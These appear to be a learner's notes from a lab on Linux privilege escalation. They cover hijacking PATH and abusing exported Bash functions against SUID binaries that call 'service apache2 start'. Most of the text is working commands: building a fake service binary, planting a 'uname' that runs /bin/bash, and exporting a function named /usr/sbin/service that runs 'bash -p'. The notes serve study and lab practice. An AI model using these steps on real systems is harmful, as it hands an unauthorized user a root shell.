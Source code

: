 ```
service apache2 start
```
One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

1. Make shell executable service from service.c and same code: `gcc -o service /home/user/tools/suid/service.c`
2. Set the PATH again `PATH=.:$PATH /usr/local/bin/suid-env `
3. Boom

1. Make a shell `echo /bin/bash > uname`
2. Give executable permissions `chmod +x uname`
3. run the SUID binary.


#### Difference between Export PATH= and PATH=
#todo 

**Exports** sets environment for child process of current instance ,but
**$PATH** is already set for the current environment not for its child process also 

So during privesc its better to use **export**


### Abusing shell features 1

In Bash versions **<4.2-048** it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.
Example: `function /usr/sbin/service { /bin/bash -p; }`
Hunt: 
1. check for bash version
2. check vuln binary `strings /usr/local/bin/suid-env2`
Output:
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start

3. execute 
```
function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service
```
4. Exploit: 
```
function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service
```
-f = for exporting functions

